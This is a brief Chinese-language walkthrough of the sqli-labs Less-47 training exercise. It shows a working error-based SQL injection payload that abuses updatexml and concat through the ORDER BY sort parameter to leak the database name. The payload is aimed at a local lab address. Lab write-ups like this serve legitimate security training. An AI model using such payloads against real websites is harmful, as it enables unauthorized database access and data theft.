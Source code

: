 ![](file/image_IRAPn3l1oF.png)

### Less-47：GET - Error based - string - ORDER BY CLAUSE

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-47/?sort=1' 
and updatexml(1,concat(0x7e,database()),1) --+
```

![](file/image_1e2EsAWMmx.png)
